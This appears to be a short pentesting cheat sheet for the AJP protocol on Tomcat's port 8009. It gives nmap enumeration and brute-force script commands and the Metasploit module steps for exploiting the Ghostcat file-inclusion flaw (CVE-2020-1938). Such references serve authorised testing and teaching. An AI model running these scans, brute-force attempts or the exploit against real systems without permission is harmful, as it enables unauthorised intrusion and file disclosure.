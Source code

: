 ```yaml
---
title: AJP (Apache JServ Protocol) Pentesting
description: AJP is a binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server. A default port is 8009.
tags:
    - AJP
    - Web
refs:
date: 2022-11-22
draft: false
---
```


## Enumeration

```sh
nmap --script ajp-auth -p 8009 <target-ip>
nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
nmap --script ajp-brute -p 8009 <target-ip>
nmap --script ajp-headers -p 8009 <target-ip>
nmap --script ajp-methods -p 8009 <target-ip>
nmap --script ajp-request -p 8009 <target-ip>
```

<br /><br />

## Ghostcat File Inclusion

It's a vulnerability of **Tomcat AJP** ([CVE-2020-1938](https://www.exploit-db.com/exploits/49039)).  
Use Metasploit for exploiting it.

```sh
msfconsole
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
```
